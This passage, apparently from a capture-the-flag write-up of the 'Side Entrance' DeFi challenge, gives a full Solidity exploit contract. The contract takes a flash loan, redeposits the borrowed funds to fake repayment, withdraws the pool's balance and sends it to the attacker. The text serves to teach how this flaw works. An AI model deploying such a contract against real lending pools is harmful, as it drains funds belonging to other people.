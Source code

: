This is a visual representaion of the calls involved in the attack:
{{< image src="/images/side_entrance_picture.png" >}}

`AttackSideEntrance.sol`:
```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ILenderPool {
  function deposit() external payable;
  function flashLoan(uint256 amount) external;
  function withdraw() external;
}

/**
 * @title AttackSideEntrance
 */
contract AttackSideEntrance {

    ILenderPool pool;
    uint256 poolBalance;

    constructor(address _pool) {
        pool = ILenderPool(_pool);
        poolBalance = address(pool).balance;
    }

    function run(address _attacker) public {
      pool.flashLoan(poolBalance);

      pool.withdraw();
      
      (bool result,) = _attacker.call{value: poolBalance}("");

      require(result, "Something goes wrong");

    }

    function execute() external payable {
      require(address(this).balance == poolBalance, "No enough ETH");

      // do something with the loan
      // ...

      // pay the loan back to the pool
      pool.deposit{value: msg.value}();
    }

    // needed to receive ETH
    receive() external payable {}
}

```

